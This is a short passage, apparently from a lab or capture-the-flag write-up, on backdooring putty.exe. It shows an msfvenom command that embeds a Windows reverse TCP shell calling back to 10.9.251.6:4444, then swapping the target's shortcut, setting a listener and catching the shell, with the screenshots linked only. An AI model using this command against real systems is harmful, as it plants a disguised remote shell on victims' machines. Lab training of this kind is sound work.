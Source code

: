     * Modify the file

        ```
        msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.9.251.6 lport=4444 -b "\x00" -f exe -o puttyX.exe
        ```

    * Transfer file to target machine and modify the taget shortcut

        ![task3-puttyX](./images/task3-puttyX.png)

    * Set listener

        ![task3-listener3](./images/task3-listener3.png)

    * Run the shortcut file and get the shell

        ![task3-putty-shell](./images/task3-putty-shell.png)
